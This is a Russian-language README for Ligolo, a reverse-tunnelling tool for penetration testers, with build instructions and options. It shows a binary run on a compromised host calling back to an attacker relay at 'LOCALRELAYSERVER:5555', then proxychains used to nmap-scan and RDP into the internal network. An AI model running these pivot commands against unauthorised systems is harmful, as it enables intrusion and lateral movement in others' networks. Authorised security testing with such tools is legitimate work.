 # Ligolo : Простое обратное туннелирование для пентестеров, от пентестеров

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

![Ligolo](img/ligolo.png)

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Содержание

- [Вступление](#Вступление)
- [Пример использования](#Пример-использования)
- [Быстрая демонстрация](#Быстрая-демонстрация)
- [Производительность](#Производительность)
- [Использование](#Использование)
  - [Настройка / Компиляция](#Настройка--Компиляция)
  - [Как использовать?](#Как-использовать)
  - [TL;DR](#tldr)
  - [Опции](#Опции)
- [Особенности](#Особенности)
- [To Do](#to-do)
- [Лицензирование](#Лицензирование)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Вступление

**Ligolo** это * простой * и * легкий * инструмент для установки * SOCKS5 * или * TCP * туннелей через обратное соединение в полной безопасности (сертификат TLS с эллиптической кривой).
Это сопоставимо с * Meterpreter* с * Autoroute + Socks4a*, но более стабильно и быстро.

## Пример использования

Вы скомпрометировали сервер Windows / Linux / Mac во время вашего внешнего аудита. Этот сервер расположен внутри локальной сети, и
вы хотите установить соединения с другими компьютерами в этой сети.

**Ligolo** может настроить туннель для доступа к ресурсам внутреннего сервера.

## Быстрая демонстрация

Ретрансляция RDP-соединения с использованием прокси-цепочек (WAN).

![RDP](img/rdesktop_example.gif)

## Производительность

Вот скриншот теста скорости между двумя хостами со скоростью 100 Мбит/с (ligolo / localrelay). Производительность может варьироваться в зависимости от конфигурации системы и сети.

![Проверка скорости](img/speedtest.png)

## Использование

### Настройка / Компиляция

Убедитесь, что * Go* установлен и работает.

1. Получите Ligolo и зависимости

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Сгенерируйте самоподписанный TLS сертификат (будет помещен в *certs* папку)

```
make certs TLS_HOST=example.com
```

NOTE: Вы также можете использовать свои собственные сертификаты, используя `TLS_CERT` переменную окружения при вызове *build*. Пример: `make build-all TLS_CERT=certs/mycert.pem`.

3. Сборка

* 3.1. Для всех архитектур

```
make build-all
```

* 3.2. (или) Для текущей архитектуры

```
make build
```

### Как использовать?

*Ligolo* состоит из двух модулей:

- localrelay
- ligolo

*Localrelay* предназначен для запуска на сервере управления (сервере злоумышленника).

*Ligolo* это программа для запуска на целевом компьютере.

Для *localrelay*, вы можете оставить параметры по умолчанию. Он будет прослушивать каждый интерфейс на порту 5555 и ждать подключений от *ligolo* (`-relayserver` параметр).

For *ligolo*, you must specify the IP address of the relay server (or your attack server) using the `-relayserver ip:port` parameter.

Вы можете использовать `-h` для помощи.

Как только будет установлено соединение между *Ligolo* и *LocalRelay*, прокси-сервер *SOCKS5* будет поднят на TCP-порт `1080` на relay сервере (вы можете изменить TCP-адрес/порт, используя опцию *-localserver*).

После этого все, что вам нужно сделать, это использовать ваш любимый инструмент (например, Proxychains) и исследовать локальную сеть клиента.

### TL;DR

На вашем атакующем сервере.

```
./bin/localrelay_linux_amd64
```

На скомпроментированом хосте.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Как только соединение установлено, установите следующие параметры в конфигурационном файле ProxyChains (на атакующем сервере):

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Опции

*Localrelay* опции:

```
Использование localrelay:
  -certfile string
    	Сертификат сервера TLS (по умолчанию "certs/server.crt")
  -keyfile string
    	Ключ сервера TLS (по умолчанию "certs/server.key")
  -localserver string
    	Адрес локального сервера (ваш параметр proxychains) (default "127.0.0.1:1080")
  -relayserver string
    	Адрес прослушивания сервера ретрансляции (обратный адрес для подключения) (default "0.0.0.0:5555")
```

*Ligolo* опции:

```
Использование ligolo:
  -autorestart
    	Попытка повторного подключения в случае ошибки
  -relayserver string
    	Сервер ретрансляции (обратный адрес для подключения) (default "127.0.0.1:5555")
  -skipverify
    	Пропустить проверку сертификата TLS
  -targetserver string
    	Целевой сервер (RDP-клиент, SSH-сервер и т.д.) - если не указано, Ligolo запускает прокси-сервер socks5.
```

## Особенности

- Туннель TLS 1.3 с поддержкой TLS
- Мультиплатформенность (Windows / Linux / Mac / ...)
- Мультиплексирование (1 TCP-соединение для всех потоков)
- Прокси-сервер SOCKS5 или простая ретрансляция

## To Do

- Улучшенная обработка тайм-аута
- Поддержка SOCKS5 UDP
- Implement mTLS

## Лицензирование

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[![Sysdream](img/logo_sysdream.png)](https://sysdream.com)

